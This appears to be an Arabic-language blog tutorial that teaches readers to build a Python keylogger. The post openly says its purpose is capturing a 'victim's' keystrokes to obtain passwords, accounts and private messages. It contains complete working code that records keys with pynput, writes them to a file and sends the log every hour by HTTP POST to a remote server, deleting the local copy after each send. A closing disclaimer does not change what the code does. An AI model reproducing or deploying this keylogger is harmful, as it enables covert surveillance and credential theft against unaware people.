 ```yaml
---

title: "Keylogger with Python in Arabic"
date: 2025-03-24
authors: "Farouk"
layout: post
categories: Python_for_Hackers
tags: [Python, Keylogger, Security, PenetrationTesting, Hacker]
direction: rtl
image:
  path: /images/HTB/e143-keylogger.gif
  alt: image alternative tex
description: ؟ وكيف بشتغل؟ وكيف فينا نساويه بأيدنا؟ Keylogger شو هو ال
---
```

<script>
document.addEventListener("DOMContentLoaded", function () {
    // البحث عن العنصر الذي يحتوي على "By"
    let authorElement = document.querySelector("span em");

    // التأكد أن العنصر موجود
    if (authorElement) {
        authorElement.textContent = "Farouk"; // وضع الاسم داخل الوسم <em>
    }
});
</script>

<h2 id="كيف-تكتب-keylogger-بسيط-بالـ-python" dir="rtl"><span class="me-2"><strong>كيف تكتب Keylogger بسيط بالـ Python؟</strong></span><a href="#كيف-تكتب-keylogger-بسيط-بالـ-python" class="anchor text-muted"></a></h2>

<h3 id="-المقدمة" dir="rtl"><span class="me-2"><strong>💡 المقدمة</strong></span><a href="#-المقدمة" class="anchor text-muted"></a></h3>

<p dir="rtl">اول شي خلونا نفهم شو يعني <strong>Keylogger</strong> , ال <strong>Keylogger</strong> هو عبارة عن برنامج بسجل عندي ضغطات الكيبورد تبع الضحية وهيك بقدر اعرف الحسابات وكلمات السر او حتى الرسائل الخاصة.
واليوم رح نعمل سوا <strong>Keylogger بسيط بلغة Python</strong> ونتعرف على آلية عمله بالتفصيل.</p>

<p dir="rtl">📌 <strong>رح يغطي هذا الدرس:</strong></p>
<ul dir="rtl">
<li> كيف بتسجل ضغطات الكيبورد باستخدام مكتبة pynput </li>
<li> تخزين هالبيانات ضمن ملف </li>
<li> كيف نبعت هالملف من جهاز الضحية للسيرفر الخاص فينا </li>
<li> تشغيل برنامجنا  <strong>كبرنامج مستمر</strong> يضل شغال بال <strong>Background</strong> </li>
</ul>

---

<h3 id="-الكود-كامل-keylogger-بالبايثون" dir='rtl'><span class="me-2"><strong> الكود كامل: Keylogger بالبايثون</strong></span><a href="#-الكود-كامل-keylogger-بالبايثون" class="anchor text-muted"></a></h3>

```python
import requests
import threading
from pynput.keyboard import Key, Listener

# رابط السيرفر لاستقبال البيانات
SERVER_URL = "http://your-server.com/logs"  # استبدله برابط السيرفر الخاص بك

def write_to_file(key):
    """
    تخزين ضغطات المفاتيح في ملف log.txt
    """
    try:
        keydata = str(key).replace("'", "")

        # التعامل مع المفاتيح الخاصة
        if key == Key.space:
            keydata = ' '
        elif key == Key.enter:
            keydata = '\n'
        elif key in (Key.shift, Key.ctrl_l, Key.ctrl_r, Key.alt_l, Key.alt_r):
            keydata = ''  # تجاهل مفاتيح التعديل

        # حفظ المفاتيح في الملف
        with open('log.txt', 'a') as f:
            f.write(keydata)
    
    except Exception as e:
        print(f"Error: {e}")

def send_logs():
    """
    إرسال البيانات المخزنة إلى السيرفر كل ساعة
    """
    try:
        with open("log.txt", "r") as f:
            logs = f.read()
        
        if logs.strip():  # الإرسال فقط إذا كان هناك بيانات
            response = requests.post(SERVER_URL, data={"logs": logs})
            if response.status_code == 200:
                print("Logs sent successfully!")
                open("log.txt", "w").close()  # مسح الملف بعد الإرسال
            else:
                print(f"Failed to send logs, status code: {response.status_code}")
    
    except Exception as e:
        print(f"Error sending logs: {e}")

    # جدولة إعادة التنفيذ كل ساعة
    threading.Timer(3600, send_logs).start()

# بدء الإرسال التلقائي
send_logs()

# تشغيل الـ Keylogger
with Listener(on_press=write_to_file) as listener:
    listener.join()
```

---

<h3 id="تحليل-الكود" dir='rtl'><span class="me-2"><strong>تحليل الكود</strong></span><a href="#تحليل-الكود" class="anchor text-muted"></a></h3>

<p dir="rtl">📌 <strong>1. تسجيل ضغطات المفاتيح:</strong></p>
<ul dir="rtl">
  <li>مكتبة الpynput بتساعدني لتسجيل كل <strong>ضغطة زر</strong> عالكيبورد وتحليلها.</li>
  <li>المفاتيح الخاصة (مثل Shift و Enter) منتعامل معها بطريقة مناسبة.</li>
  <li><strong>منحفظ كل ضغطة عالكيبورد</strong> بملف log.txt.</li>
</ul>

<p dir="rtl">📌 <strong>2. إرسال البيانات إلى سيرفر:</strong></p>
<ul dir="rtl">
  <li>منقرأ محتوى ملف log.txt كل <strong>ساعة</strong>.</li>
  <li>إذا كان عندي بيانات، فبيبعتلي ياها ل  <strong>السيرفر</strong> عبر requests.post().</li>
  <li>بعد ما يتم الارسال بقلو <strong>يمسحلي الملف</strong> حتى مايصير عندي تكرار بالإرسال.</li>
</ul>

<p dir="rtl">📌 <strong>3. تشغيل الكي لوجر بالخلفية:</strong></p>
<ul dir="rtl">
  <li>استخدمت threading.Timer حتى يضل عم يرسل البيانات بشكل دوري.</li>
  <li>Listener بضل شغال حتى حدا <strong>يوقف البرنامج يدويًا</strong>.</li>
</ul>

<hr />


---

<h3 id="الخاتمة" dir="rtl"><span class="me-2"><strong>الخاتمة</strong></span><a href="#الخاتمة" class="anchor text-muted"></a></h3>

<p dir='rtl'>هيك صار عندك <strong>Keylogger بسيط وفعال</strong> وهاد الشي حتى تفهم آلية عمله ويكون عندك الفهم البرمجي لطريقة عمله, فلا تستخدموا بطريقة غلط🌚.</p>

<p dir='rtl'><strong>وهلق خبرني شو رأيك بالكود؟ وهل عندك أفكار لتطويره؟🤔</strong></p>


